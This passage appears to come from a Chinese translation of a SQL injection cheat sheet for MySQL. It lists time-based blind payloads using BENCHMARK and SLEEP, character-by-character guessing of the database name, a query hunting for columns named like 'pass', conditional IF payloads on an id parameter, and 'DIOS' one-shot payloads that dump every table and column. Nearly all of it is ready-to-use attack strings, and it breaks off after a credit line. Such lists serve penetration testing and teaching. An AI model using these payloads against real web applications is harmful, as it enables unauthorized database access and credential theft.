 ## 基于时间的MySQL

以下SQL代码将延迟MySQL的输出。

* MySQL 4/5：`BENCHMARK()`

  ```sql
  +BENCHMARK(40000000,SHA1(1337))+
  '%2Bbenchmark(3200,SHA1(1))%2B'
  AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
  ```

* MySQL 5：`SLEEP()`

  ```sql
  RLIKE SLEEP([SLEEPTIME])
  OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
  ```

### 在子查询中使用SLEEP

```powershell
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')# 
1 and (select sleep(10) from dual where database() like '____')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
...
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
...
1 and (select sleep(10) from dual where database() like 'sw___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
...
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#
```

### 使用条件语句

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```

## MYSQL DIOS - 一次性转储

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#

(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#

-- SecurityIdiots
make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Profexer
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)

-- Dr.Z3r0
```